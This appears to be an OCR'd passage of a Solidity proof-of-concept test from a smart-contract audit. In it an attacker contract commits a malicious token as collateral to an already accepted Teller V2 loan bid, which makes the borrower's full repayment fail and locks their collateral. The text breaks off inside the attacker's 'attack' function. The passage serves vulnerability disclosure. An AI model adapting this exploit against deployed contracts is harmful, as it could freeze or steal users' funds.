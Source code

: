 ```solidity
        /////////////////////////////
        // MALICIOUS TOKEN EXPLOIT //
        /////////////////////////////
        attacker.attack(address(collateralManager), _bidId, amount, address(malToken), address(borrower));

        console.log("After attack, malToken amount at Collateral", collateralManager.getCollateralAmount(0, address(malToken)));

        tellerV2.setGlobalBidState(BidState.PAID,_bidId);
        
        Payment memory amountOwed = tellerV2.calculateAmountOwed(_bidId);
        uint256 finalAmount = amountOwed.principal + amountOwed.interest;
        console.log("amountOwed :", amountOwed.principal, amountOwed.interest);
        borrower.addAllowance(
            address(wethMock2),
            address(tellerV2),
            finalAmount
        );
        
        
        tellerV2.repayLoanFull(_bidId, wethMock2, finalAmount, collateralManager); // Fail here if the attacker attacked.
        assertEq(wethMock.balanceOf(address(borrower)), 200, "Didn't receive my collaterals");  // Assertion Success unless the attacker attacked.
    }
}
contract TellerV2User is User {
    //WethMock public immutable wethMock;
    Test_TestERC20Token public immutable wethMock;
    CollateralManager cm;
    constructor(address _tellerV2, Test_TestERC20Token _wethMock) User(_tellerV2) {
        wethMock = _wethMock;
    }


    //receive 721
    function onERC721Received(address, address, uint256, bytes calldata)
        external
        returns (bytes4)
    {
        return this.onERC721Received.selector;
    }

    //receive 1155
    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) external returns (bytes4) {
        return this.onERC1155Received.selector;
    }

    function approveERC20(address _token, address _receiver, uint256 amount) public {
        Test_TestERC20Token(_token).approve(_receiver, amount);
    }
    // attack function to commit collateral to an existing bid (already accepted).

    function attack(address collateralManager, uint bidId, uint256 amount, address _tokenAddress, address _victim) public{
        cm = CollateralManager(collateralManager);
```